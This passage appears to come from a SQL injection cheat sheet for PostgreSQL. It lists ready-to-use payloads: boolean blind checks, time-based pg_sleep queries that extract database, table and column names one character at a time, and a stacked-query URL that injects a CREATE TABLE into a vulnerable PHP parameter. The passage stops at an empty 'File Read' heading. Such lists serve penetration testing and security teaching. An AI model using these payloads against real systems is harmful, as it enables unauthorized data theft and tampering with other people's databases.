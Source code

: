 Note, with the above queries, the output needs to be assembled in memory. For larger databases, this might cause a slow down or denial of service condition.

## PostgreSQL Blind

```sql
' and substr(version(),1,10) = 'PostgreSQL' and '1  -> OK
' and substr(version(),1,10) = 'PostgreXXX' and '1  -> KO
```

## PostgreSQL Time Based
#### Identify time based

```sql
select 1 from pg_sleep(5)
;(select 1 from pg_sleep(5))
||(select 1 from pg_sleep(5))
```

#### Database dump time based
```sql
select case when substring(datname,1,1)='1' then pg_sleep(5) else pg_sleep(0) end from pg_database limit 1
```

#### Table dump time based
```sql
select case when substring(table_name,1,1)='a' then pg_sleep(5) else pg_sleep(0) end from information_schema.tables limit 1
```
#### columns dump time based
```sql
select case when substring(column,1,1)='1' then pg_sleep(5) else pg_sleep(0) end from table_name limit 1
select case when substring(column,1,1)='1' then pg_sleep(5) else pg_sleep(0) end from table_name where column_name='value' limit 1
```


```sql
AND [RANDNUM]=(SELECT [RANDNUM] FROM PG_SLEEP([SLEEPTIME]))
AND [RANDNUM]=(SELECT COUNT(*) FROM GENERATE_SERIES(1,[SLEEPTIME]000000))
```

## PostgreSQL Stacked Query

Use a semi-colon ";" to add another query

```sql
http://host/vuln.php?id=injection';create table NotSoSecure (data varchar(200));--
```

## PostgreSQL File Read
